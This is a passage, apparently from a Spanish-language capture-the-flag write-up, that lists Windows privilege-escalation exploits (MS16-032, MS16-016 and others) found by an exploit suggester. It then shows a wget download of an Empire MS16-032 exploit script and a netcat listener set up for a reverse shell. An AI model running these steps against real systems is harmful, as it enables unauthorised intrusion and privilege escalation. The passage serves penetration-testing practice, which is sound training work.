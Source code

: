 ```bash
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*] 
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*] 
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC

[snip]
```

### MS16-032

segun los datos que nos arrojo windows exploit suggester, descargamos en nuestra maquina el exploit de ms16-032

```bash
Optimum # ❯ wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1
```

dejamos el puerto 443 en escucha con netcat

```bash
Optimum # ❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```
